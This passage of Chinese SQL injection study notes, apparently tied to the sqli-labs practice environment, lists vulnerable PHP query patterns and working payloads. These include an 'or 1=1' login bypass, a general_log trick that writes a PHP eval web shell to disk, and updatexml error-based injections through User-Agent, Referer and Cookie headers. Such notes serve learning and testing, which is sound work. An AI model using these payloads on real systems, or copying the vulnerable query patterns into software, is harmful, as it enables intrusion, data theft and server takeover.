 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```

	替代方法：
	set global general_log=on;set global general_log_file='C:/phpStudy/WWW/123.php';select '<?php eval($_POST[123]) ?>';
	php的 mysql_query 只支持单语句。所以这个利用点不大。

[sql注入--高权限，load_file读写文件](https://www.cnblogs.com/hackxf/p/8975501.html)

5.多语句查询注入

联合查询限制条件：必须由两条或两条以上的select语句组成，语句之间用关键字union分隔 ,union中的每个查询必须包含相同的列


延时注入和布尔注入共同点：都是一个字符一个字符爆出来的，耗费时间长，都没有显示位，都要ASCII码推算

报错注入：由于配置不当，错误信息被输出到前台，导致攻击者根据报错信息进行一系列操作



## 漏洞sql格式
	
	整形
	$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
	字符型
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	字符型 '）闭合
	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
	字符型 "）闭合
	$id = '"' . $id . '"';
	$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
	字符型 ')) 闭合
	$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";


还有一些是包头注入（Header Injection）,过滤了用户名密码没有过滤包头，比如

	$uagent = $_SERVER['HTTP_USER_AGENT'];

	$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";

	',1,updatexml(1,concat(0x5c,(select database()),0x5c),1))#

	INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('',1,updatexml(1,concat(0x5c,(select database()),0x5c),1))#', 'XXX.XXX.178.167', 'admin')

	注意保证字段数与要插入的列数一致
	
常见的HTTP注入点产生位置为【Referer】、【X-Forwarded-For】、【Cookie】、【X-Real-IP】、【Accept-Language】、【Authorization】


	$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";

	',updatexml(1,concat(0x5c,(select database()),0x5c),1))#
 	 
	' union select updatexml(1,concat(0x5c,(select database()),0x5c),1)#

	$cookee = $_COOKIE['uname'];

	$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1"

	
```